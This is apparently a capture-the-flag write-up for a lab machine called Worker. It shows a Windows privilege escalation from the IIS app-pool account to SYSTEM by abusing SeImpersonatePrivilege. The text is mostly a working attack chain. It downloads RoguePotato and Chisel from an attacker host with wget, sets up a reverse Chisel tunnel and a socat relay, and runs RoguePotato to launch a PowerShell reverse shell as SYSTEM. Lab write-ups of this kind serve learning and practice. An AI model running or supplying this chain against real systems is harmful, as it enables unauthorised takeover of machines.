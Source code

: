 # Alternative way to exploit Worker

## Privilege Escalation to System

It is possible to escalate privileges to SYSTEM with the initial user _IIS Appool\DefaultAppPool_ by exploiting the privileges.

This user has the _SeImpersonatePrivilege_ privilege set:
```
whoami /all

iis apppool\defaultapppool

Privilege Name                Description                               State   
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

To abuse this, the Local Privilege Escalation tool [RoguePotato](https://github.com/antonioCoco/RoguePotato) will be used.

Downloading _RoguePotato.exe_ to the box:
```
wget 10.10.14.7:8000/RoguePotato.exe -o rp.exe
```

We will use [Chisel](https://github.com/jpillora/chisel) to open and forward ports to our local client.

Starting the **Chisel server** on our local client:
```
./chisel server -p 8001 --reverse
```

Downloading _chisel.exe_ to the box and forwarding port 9999:
```
wget 10.10.14.7:8000/chisel.exe -o chisel.exe

.\chisel.exe client 10.10.14.7:8001 R:9999:localhost:9999
```

> NOTE: The Chisel client will make the shell not usable anymore, so another reverse shell has to be started to interact with the box.

Starting the `socat` connection to listen for port 135 on our local client:
```
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```

Executing _RoguePotato.exe_ to run the _shell.ps1_ script:
```
.\rp.exe -r 10.10.14.7 -e "powershell C:\Windows\Temp\shell.ps1" -l 9999
```
```
(...)
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: powershell C:\Windows\Temp\shell.ps1
[+] RoguePotato gave you the SYSTEM powerz :D
```

After it is successfully executed, the listener on my IP and port 9001 starts a reverse shell as SYSTEM!

